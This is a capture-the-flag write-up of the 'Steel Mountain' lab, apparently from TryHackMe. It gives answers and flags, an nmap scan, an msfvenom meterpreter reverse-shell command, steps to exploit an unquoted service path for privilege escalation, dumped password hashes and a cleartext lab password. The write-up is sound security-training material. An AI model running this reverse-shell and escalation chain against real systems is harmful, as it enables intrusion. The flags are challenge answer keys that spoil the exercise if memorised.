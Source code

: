 # Steel Mountain
##### Question 1: Who is the employee of the month?
Answer
```bash
Bill Harper
```

##### Question 2: Scan the machine with nmap. What is the other port running a web server on?
Answer
```bash
8080
```

##### Question 3: Take a look at the other web server. What file server is running?
Answer
```bash
Rejetto HTTP File Server
```

##### Question 4: What is the CVE number to exploit this file server?
Answer
```bash
CVE 2014-6287
```

##### Question 5: Use Metasploit to get an initial shell. What is the user flag?
Answer
```bash
b04763b6fcf51fcd7c13abc7db4fd365
```

##### Question 6: Take close attention to the CanRestart option that is set to true. What is the name of the service which shows up as an unquoted service path vulnerability?
Answer
```bash
AdvancedSystemCareService9
```

##### Question 7: What is the root flag?
Answer
```bash
9af5f314f57607c00fd09803a587db80
```

##### Question 8: What powershell -c command could we run to manually find out the service name? 
Answer
```bash
powershell -c Get-Service
```

- - - - - - - -  - - -  - - - - - - - - - - - - - - - - - - -- - - - 

Nmap Scan:
```nmap
Nmap scan report for 10.10.247.87
Host is up (0.091s latency).
Not shown: 65496 closed ports, 26 filtered ports
PORT      STATE SERVICE            VERSION
80/tcp    open  http               Microsoft IIS httpd 8.5
|_http-server-header: Microsoft-IIS/8.5
|_http-title: Site doesn't have a title (text/html).
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
| ssl-cert: Subject: commonName=steelmountain
| Not valid before: 2021-12-15T00:52:10
|_Not valid after:  2022-06-16T00:52:10
|_ssl-date: 2021-12-16T01:08:25+00:00; +1s from scanner time.
5985/tcp  open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
47001/tcp open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
49152/tcp open  tcpwrapped
49153/tcp open  tcpwrapped
49154/tcp open  tcpwrapped
49155/tcp open  tcpwrapped
49156/tcp open  tcpwrapped
49163/tcp open  tcpwrapped
49164/tcp open  tcpwrapped

Network Distance: 5 hops
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-12-16T01:07:59
|_  start_date: 2021-12-16T00:52:03

TRACEROUTE (using port 8888/tcp)
HOP RTT       ADDRESS
1   38.04 ms  10.6.0.1
2   ... 4
5   106.96 ms 10.10.247.87
```

BillHarper Picture:
![[Pasted image 20211215190842.png]]

File Server Screenshot:
![[Pasted image 20211215190740.png]]

Unqouted Service Path:
![[Pasted image 20211215192438.png]]

Priv Esc Commands:
```bash
msfvenom -p windows/meterpreter_reverse_tcp LHOST=10.6.32.32 LPORT=5555 -f exe -o Advanced.exe

upload Advanced.exe
shell

net stop AdvancedSystemCareService9
cd "C:\Program Files (x86)\IObit"
move C:\users\bill\Desktop\Advanced.exe

~run listener

net start AdvancedSystemCareService9
```

Hashdump:
```bash
Administrator:500:aad3b435b51404eeaad3b435b51404ee:53dbf27b0f37b1ef784c8a4768c0e9fa:::
bill:1001:aad3b435b51404eeaad3b435b51404ee:a3c2a771303f6e954077bcc663e89213:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

bill:PMBAf5KhZAxVhvqb